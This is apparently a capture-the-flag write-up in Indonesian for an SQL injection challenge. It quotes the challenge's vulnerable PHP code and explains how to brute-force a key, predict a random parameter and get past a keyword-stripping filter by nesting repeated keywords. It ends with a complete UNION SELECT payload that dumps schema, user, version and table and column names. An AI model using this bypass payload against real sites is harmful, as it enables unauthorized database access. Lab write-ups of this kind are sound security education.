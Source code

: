 # Solution sqli1

Oke pertama , kita diberikan informasi sebagai berikut :
```
/**
 * 
 * Hey ,
 * Can u inject me ? ah ah aagh agh :v ,
 * But but, u must know about php, before inject me :)
 *
 *
 * Task ? 
 * - Print Image , Leet Name , Database , User, version , Time, and DIOS
 *
 *
 * clue ?
 * - need a key ? , u can brute me :v
 * - Hmm , kadang muncul kadang tidak . Beginilah hidup :(
 * - 30 adalah nomor keberuntungan ku :)
 * - I am very tired :(
 *
 * 
 * Solved ? pm me
 *
 * List solver ?
 * https://def-chall.000webhostapp.com/challenge1/solver.php
 * 
 */
 ```

 Beberapa point penting dari informasi diatas :
 - Untuk menyelesaikan challenge ini kita diharuskan untuk melakukan sql injection dengan disertai menampilkan Image , Leet Name , Database , User, version , Time, dan DIOS
 - Kemungkinan untuk mendapatkan key , kita diharuskan melakukan bruteforce
 - Angka 30 merupakan angka penting
 - Challenge ini melelahkan

Oke , Lanjut kita baca potongan kode yang tersedia berikut :
```

$id = $_GET['id'];

if(isset($_GET['key'])){
    $key = $_GET['key'];
    ...
        if(isset($_GET['num'])) {
            if((int)abs(log10(pow(23,13))*rand(1,2)) == (int)$_GET['num']){
                ...
                $data = $con->prepare($query);
                $data->execute();
                ?>
                ...

            <?php
            }else{
                echo "NONONO";
            }
        }else{
            echo "NONONO !1!1";
        }
    ...
    }else{
        echo "Wrong key , guys";
    }
}else{
    echo "where ur key ??,";
}
```

Dari sini kita tahu bahwa :
- Terdapat 3 parameter yaitu :
    - key
    - num
    - id
- Sql injection dapat dilakukan di ```$_GET['id']```
-  ```$_GET['num']``` nilainya acak
- Sementara untuk  ```$_GET['key']``` , kita diharuskan untuk melakukan bruteforce .


Disini saya sudah membuat potongan kode untuk : 
- [Brute force key](bruteforce_key.php)
- [Mengetahui random nilai yang tergenerate pada $_GET['num']](abs.php)

Oke , setelah itu kita lanjutkan pada proses sql injection .

```
...
for($i=0; $i<$looping;$i++){
    $id = preg_replace("/(union|and|img|src|img src|or|false|true|select|order|by|database|user|schema|-|'| |ASCII|BIN|BINARY OPERATOR|BIT_LENGTH|CAST|CHAR FUNCTION|CHARACTER_LENGTH|CHAR_LENGTH|CONCAT|CONCAT_WS|CONVERT|ELT|EXPORT_SET|EXTRACTVALUE|FIELD|FIND_IN_SET|where|HEX|INSERT FUNCTION|INSTR|LCASE|LEFT|LENGTH|LIKE|LOAD_FILE|LOCATE|LOWER|LPAD|LTRIM|MAKE_SET|MATCH AGAINST|MID|NOT LIKE|@|NOT REGEXP|OCT|OCTET_LENGTH|ORD|POSITION|QUOTE|REGEXP|REPEAT FUNCTION|REPLACE FUNCTION|REVERSE|RIGHT|RPAD|RTRIM|SOUNDEX|SOUNDS LIKE|SPACE|STRCMP|SUBSTR|SUBSTRING|SUBSTRING_INDEX|TRIM|UCASE|UNHEX|UPDATEXML|UPPER|ADDDATE|ADDTIME|CONVERT_TZ|CURDATE|CURRENT_DATE|CURRENT_TIME|CURRENT_TIMESTAMP|CURTIME|DATE FUNCTION|DATEDIFF|DATE_ADD|DATE_FORMAT|DATE_SUB|DAY|tables|DAYNAME|DAYOFMONTH|DAYOFWEEK|DAYOFYEAR|EXTRACT|FROM_DAYS|FROM_UNIXTIME|GET_FORMAT|HOUR|LAST_DAY|time|LOCALTIMESTAMP|MAKEDATE|MAKETIME|MICROSECOND|MINUTE|MONTH|MONTHNAME|NOW|PERIOD_ADD|tables|columns|column|table|PERIOD_DIFF|QUARTER|SECOND|SEC_TO_TIME|STR_TO_DATE|SUBDATE|SUBTIME|SYSDATE|TIME FUNCTION|TIMEDIFF|TIMESTAMP FUNCTION|TIMESTAMPADD|TIMESTAMPDIFF|TIME_FORMAT|TIME_TO_SEC|TO_DAYS|TO_SECONDS|UNIX_TIMESTAMP|UTC_DATE|UTC_TIME|UTC_TIMESTAMP|WEEK|WEEKDAY|WEEKOFYEAR|YEAR|YEARWEEK|BENCHMARK|CHARSET|COERCIBILITY|COLLATION|CONNECTION_ID|CURRENT_USER|DATABASE|FOUND_ROWS|LAST_INSERT_ID|ROW_COUNT|SCHEMA|SESSION_USER|USER|VERSION)/i", "", $id);
    }

    if(isset($_GET['id'])){
        $query = "select * from challenge1 where id=$id";
    }else{
        $query = "select * from challenge1";
    }
    $data = $con->prepare($query);
    $data->execute();
    ?>
    ...
```
Penjelasan kode : 
- Dilakukan looping sebanyak $looping kali ( yang saya tebak bernilai 30 , dikarenakan diawal disebutkan tentang angka 30 yang berkaitan dengan angka keberuntungan )
    - Didalam looping dilakukan preg_match terhadap``` $_GET ['id']``` bila mengandung kata yang berada dalam scope
- Jika``` $_GET ['id]'``` tidak di ada maka $query akan menampilkan semua data, apabila sebaliknya maka $query akan menampilkan data ber-id ,```  $_GET['id]'```

Disini saya telah membuat sebuah program untuk melakukan bypass terhadap fungsi yang ter-replace . Untuk sourcenya bisa dilihat [disini](exploit.py)

Dari beberapa program diatas , kalau kita gabungkan maka akan menghasilkan query berikut :
```
/?key=90770&num=17&id=1/**/ununiununiununiununiununiununiununiununiununiununiununiununiununiununiununiuniononiononiononiononiononiononiononiononiononiononiononiononiononiononiononion/**/selselselselselselselselselselselselselselselselselselselselselselselselselselselselselselselectectectectectectectectectectectectectectectectectectectectectectectectectectectectectectect/**/1,group_conconconconconconconconconconconconconconconconconconconconconconconconconconconconconconconcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcat(0x3C68313E47726579583C2F68313E3C696D67207372633D2268747470733A2F2F692E70696E696D672E636F6D2F6F726967696E616C732F37622F64312F66342F37626431663464386362393234343536363631323139313830343966646437612E6A7067223E),group_conconconconconconconconconconconconconconconconconconconconconconconconconconconconconconconcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcat(schschschschschschschschschschschschschschschschschschschschschschschschschschschschschschschemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaema(),"<br>",system_usususususususususususususususususususususususususususususususererererererererererererererererererererererererererererererer(),"<br>",verversverversverversverversverversverversverversverversverversverversverversverversverversverversverversversionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsion(),"<br>",localtititititititititititititititititititititititititititititititimememememememememememememememememememememememememememememememestamp),(selselselselselselselselselselselselselselselselselselselselselselselselselselselselselselselectectectectectectectectectectectectectectectectectectectectectectectectectectectectectectect/**/group_conconconconconconconconconconconconconconconconconconconconconconconconconconconconconconconcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcat(tatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtableleblelebleleblelebleleblelebleleblelebleleblelebleleblelebleleblelebleleble_name,"::",colcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumn_name)/**/from/**/infooooooooooooooooooooooooooooooorrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrmation_schschschschschschschschschschschschschschschschschschschschschschschschschschschschschschschemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaema.colcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumns)
```

Terakhir kita injectkan script diatas ke [sini](https://def-chall.000webhostapp.com/challenge1/)
```
Catatan : Apabila script tidak keluar ,lakukan refresh untuk mendapatkan kode $_GET['num'] yang cocok .